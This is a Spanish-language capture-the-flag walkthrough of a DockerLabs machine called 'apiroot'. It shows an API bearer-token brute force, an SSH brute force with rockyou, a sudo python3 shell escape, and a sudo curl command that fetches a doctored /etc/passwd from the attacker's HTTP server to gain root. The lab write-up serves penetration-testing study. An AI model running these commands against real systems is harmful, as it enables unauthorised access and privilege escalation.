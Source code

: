 nmap: 22, 5000

![image](https://github.com/user-attachments/assets/ebd72e6c-0cae-4a3a-a87b-32bd4d6d0d17)

entramos a la pagina por el puerto 5000

![image](https://github.com/user-attachments/assets/811b2243-4273-4387-9dc2-b4026ae5c599)

en la pagina nos da un código:

![image](https://github.com/user-attachments/assets/01e2fd20-e3b2-45c1-b936-a64d0e668314)

que si lo probamos da

![image](https://github.com/user-attachments/assets/6cd6e0a2-07ab-4874-be96-ca4646d644df)

nada interesante en si. pero en la pagina veremos algo, que cada ejemplo de API por ejemplo, GET O POST y así, tienen como comienzo "/api"

![image](https://github.com/user-attachments/assets/61cb2c5e-63f7-4eb6-abf2-0d7dcadce5e8)

hacemos un gobuster

![image](https://github.com/user-attachments/assets/05c80861-d4eb-4b1b-a349-56cdcd0beaad)

y nos da "users", lo probamos

![image](https://github.com/user-attachments/assets/f63bc726-1636-48bd-a84e-69a8bb5b039b)

pero la verdad no da mucho mas, buscamos alguna forma de explotar esto, buscamos alguna explotación de "APIs"  y encontre esta: https://github.com/Maalfer/bruteapi/blob/main/bruteapi.sh
que es un .sh, así que nos copiamos el código, creamos un .sh y le damos permisos de ejecución.  

como de por si el ".sh" no esta funcionando o dando algo, lo lanzamos con el comando que nos dio la pagina al principio

     curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto

pero medicando para que me de alguna respuesta diferente porque de por si el, ".sh"  es para hacer fuerza bruta, pero basados en el código que nos dieron.  lanzamos

     bash exploit.sh http://172.17.0.2:5000/api/users /usr/share/wordlists/rockyou.txt

![image](https://github.com/user-attachments/assets/4acb1075-cd47-42e6-9fdb-43ba010f6058)

![image](https://github.com/user-attachments/assets/b6c688fc-31f7-49db-82ea-b472b35e5996)

obtenemos la contraseña

     password1

y utilizamos la opción 2 que es `Bearer Token`, lo que intentara dar como una ¨coincidencia¨  

entonces si lanzamos el comando

     curl -H "Authorization: Bearer password1" http://172.17.0.2:5000/api/users

![image](https://github.com/user-attachments/assets/cb1e8a2d-6a50-400c-9fe9-a9e905f123b2)

cambiamos en el código la "password_secreta" por la contraseña encontrada, cambiamos la IP a la de la maquina victima y "directorio_oculto" por "users" que fue lo que nos dio el gobuster. 
entonces obtenemos dos nombres 

     bob y dylan

hacemos una fuerza bruta:

![image](https://github.com/user-attachments/assets/fcfaa2e0-7165-4d07-a781-bdd9f0ff1eb5)

obtenemos a "bob" y "password1" y tenemos la conexion

![image](https://github.com/user-attachments/assets/ae41145a-bf80-43de-a64e-404bc3e0ca35)

dentro tenemos esto

![image](https://github.com/user-attachments/assets/a120b915-9440-4141-863f-60d680423e99)

un python3 y un "app.py", buscamos el de python3 https://gtfobins.github.io/gtfobins/python/#sudo

![image](https://github.com/user-attachments/assets/871ece54-cf63-483a-8345-3fc0a733595e)

lanzamos

     sudo -u balulero python3 -c 'import os; os.system("/bin/sh")'

y somos el usuario balulero

![image](https://github.com/user-attachments/assets/1b8f12b8-4ccc-4ddd-a6fd-b3d74c0b4dc6)

tenemos dentro un curl 

![image](https://github.com/user-attachments/assets/27228485-12ca-467b-8088-22bdcaa04472)

lo buscamos en gtf igual

![[dockerlabs/medio/apiroot/conexion2.png]]

y tendremos que abrir un servidor y clonar en este caso el archivo "passwd" 

![[la x.png]]

entonces copiamos el archivo de passwd desde la carpeta victima y en nuestra terminal le sacamos la "x" entonces ahora vamos a pasar desde nuestra maquina a la victima el archivo modificado desde un servidor como nos indica lo de FTFOBINS. 

abrimos el servidor 

     python3 -m http.server 

en la terminal victima colocamos 

    URL=http://172.17.0.1:8000/passwd
    LFILE=/etc/passwd
    sudo curl $URL -o $LFILE

entonces tendremos algo así 

![[server.png]]

ahora verificamos que se remplazo el archivo por el modificado

![[dockerlabs/medio/apiroot/root1.png]]

y vemos que no tiene la "x" así que se modifico correctamente, ahora haremos un "su root"

![[dockerlabs/medio/apiroot/rootf.png]]

y somos root! 
